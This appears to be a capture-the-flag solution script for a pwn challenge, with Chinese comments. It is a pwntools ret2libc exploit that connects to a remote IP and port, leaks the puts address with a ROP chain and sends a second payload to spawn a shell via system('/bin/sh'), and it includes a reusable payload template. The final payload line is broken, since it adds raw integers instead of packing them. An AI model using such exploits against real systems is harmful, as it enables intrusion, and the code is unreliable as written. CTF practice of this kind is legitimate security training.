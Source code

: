 

exp：

```python
from pwn import *

context.log_level = 'debug'

context.arch = 'amd64'

#p = process('./pwn')

p = remote('111.231.70.44',28049)

elf = ELF('./pwn')  #产生一个对象

puts_plt = elf.plt['puts']

puts_got = elf.got['puts']

pop_rdi = 0x4006e3 # ROPgadget --binary [file name]

main = elf.symbols['main']  #elf.symbols['a_function']  找到 a_function 的地址

payload = 'a'*20 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
#64位payload: "a"*offset + p64(pop_rdi) + p64(got) + p64(plt) + p64(ret_addr/main)

p.sendline(payload)

p.recvuntil('\x0a') #p.recvuntil(some_string) 接收到 some_string 为止

puts_addr = u64(p.recv(6).ljust(8,b'\x00')) #p.recvn(N)   接受 N(数字) 字符

print(hex(puts_addr))

ret_addr = 0x4006E4

libcbase = puts_addr -  0x0809c0    # -libc_Offset的puts

system_addr = libcbase + 0x04f440   # +libc_Offset的system

bin_sh = libcbase + 0x1b3e9a        # +libc_Offset的bin/sh

payload = 'a'*20 + ret_addr + pop_rdi + bin_sh + system_addr
#getshell: b"a"*offset + p64(ret) + p64(pop_rdi) + p64(str_bin_sh)

p.sendline(payload)

p.interactive()


```






















